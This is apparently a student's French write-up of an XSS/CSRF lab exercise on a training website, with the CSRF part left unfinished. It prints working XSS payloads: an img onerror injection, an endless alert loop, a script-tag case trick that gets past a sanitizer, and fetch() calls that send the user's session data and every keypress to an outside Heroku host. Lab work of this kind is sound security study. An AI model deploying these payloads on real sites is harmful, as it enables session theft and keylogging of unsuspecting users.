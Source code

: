 # XSS-CSRF
https://xss-csrf-tp.herokuapp.com/men
## Partie 1 - XSS

### Level 1 : 
Pour ce niveau, j’ai décidé d’intégrer une image dans l’URL qui affiche un message d’erreur  si elle n’est pas trouvée → une popup d’erreur s’affiche https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%22alert%22%20onerror=%22alert(%27danger%27)%22%3E 

### Level 2 :
* Pour ce niveau,  j’ai repris ma démarche précédente en insérant '<img src="alert" onerror="alert('danger')">' dans le champ titre du formulaire ainsi l’image qui doit être affiché n’est pas trouvée → une popup d’erreur s’affiche par contre '<script>alert(‘danger’)</script>' ne fonctionne pas
* On dirait que le navigateur protége le site en effectuant un genre d’escape
* L’API Fetch de JS effectue une requete asynchrone en utilisant un appel AJAX pour recuperer les données
* La solution que je prefere est <img src="danger" onerror="while(true) { alert(‘danger’); }">
* Pour envoyer sur heroku la session de l’utilisateur de maniere invicible, j’utilise : <img src="danger" onerror="fetch('https://website-alex.herokuapp.com/', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({sessionName: sessionStorage.SessionName, session: sessionStorage.getItem('SESSIONDANGER')})})">

### Level 3 :
* Pour rusez le bypass du sanitizer, j’ai simplement ajouter des majuscule dans les balise script ainsi les scripts sont ajouté dans le DOM
* Pour faire un keylogger en JS qui envoie les données sur heroku : <sCript>document.addEventListener('keypress', function(event) { console.log(String.fromCharCode( event.which )); fetch('https://website-alex.herokuapp.com/', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({keypressed: String.fromCharCode( event.which )})})}); </sCript>

## Partie 2 - CSRF

En construction
